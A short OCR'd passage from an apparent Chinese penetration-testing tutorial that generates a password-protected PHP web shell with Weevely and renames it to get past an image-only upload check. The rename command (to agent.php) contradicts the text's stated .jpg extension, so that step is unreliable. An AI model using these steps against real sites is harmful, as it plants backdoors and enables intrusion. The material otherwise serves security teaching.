 
1.  打开终端并输入`Weevely`；它将显示用法的示例语法，如下截图所示：![如何做...](img/image_07_044.jpg)

1.  现在我们需要生成一个 PHP Shell，可以使用以下命令：

```
      Weevely generate <password-to-connect> /root/weevely.php      Weevely generate uytutu765iuhkj /root/weevely.php

```

1.  输入`ls`，你会看到一个新文件被创建，名为`weevely.php`，因为我们的应用程序只允许上传图片，所以我们需要将这个文件重命名为`.jpg`扩展名，如下命令所示：

```
mv weevely.php agent.php

```

